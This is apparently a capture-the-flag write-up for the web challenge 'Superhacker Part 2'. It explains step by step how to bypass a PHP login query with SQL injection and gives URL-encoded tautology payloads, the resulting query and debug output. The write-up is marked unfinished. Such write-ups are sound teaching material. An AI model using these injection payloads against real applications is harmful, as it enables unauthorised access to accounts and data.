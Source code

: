 # Superhacker Part 2
**Category:** Web

**Points:** 25

**Description:**

http://ctf.hackucf.org:4001/

Author: kablaa

## Write-up
```diff
- This is still in progress
```
This is the second part of [Superhacker Part1](../Web_SuperhackerPart1/README.md). Therefore, the opening page is the same:

![Opening page](opening_page.png)

For this challenge we need to get the code to give us `$flag2`. This means we need to get into the same part as for `Superhacker Part1`, but also need to ensure that the `SELECT` command returns at least one row from the `users` table. This is because the condition to get to `$flag2` is:
```php
if(mysqli_num_rows($res) > 0) {
    echo "$flag2" ;
}
```
This is going to require some SQL intection. We could get all rows from the table with a `SELECT` statement like:
```sql
SELECT * FROM users WHERE username LIKE '%'
```
However, to inject code into the current statement, we need to put the code into the `username` or `password`. We can use `OR` in an SQL statement to add our `LIKE` clause to the existing `SELECT` by having `username` start with a closing quote (`'`), and then our `OR username LIKE '%'` clause, followed by the single line comment symbol `--`. The single-line-comment marker will exclude the original closing quote from the username and all the `password` part of the line. The SQL statement we will be creating is:
```sql
SELECT * FROM users WHERE username = '' OR username LIKE '%' --' AND password = 'pass'
```
To do this we need to pass the string through the URL, because we also need to set `iamahacker` and `debug` (we don't actually need to set `debug`, but it's useful to check our statement). This means any special characters need to be set to the ASCII hex value for that character. This includes the closing (and any other) quote (`%27`), any spaces (`%20`) and the percent sign (`%25`). Therefore, our final URL should be:
```
http://ctf.hackucf.org:4001?username=%27%20OR%20username%20LIKE%20%27%25%27%20--&password=pass&iamahacker=1&debug=1
```
I tried this, but it didn't work, and gave an error:
```
flag{<flag1 here>}
SELECT * FROM users WHERE username = '' OR username LIKE '%' --' AND password = 'pass'

Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in /app/index.php on line 21
```
So I now needed to figure out where this had gone wrong...

> I couldn't spot what was wrong. So, for now, and after consultation with a friend who had previously solved this, I used the URL:  
`http://ctf.hackucf.org:4001/?username=%27%20OR%20%27%27=%27&password=%27%20OR%20%27%27=%27&iamahacker=1&debug=1`  
which makes the select statement:  
`SELECT * FROM users WHERE username = '' OR ''='' AND password = '' OR ''=''`  
and gave me the flag. However, I will return and fix my original solution when I work out the problem.

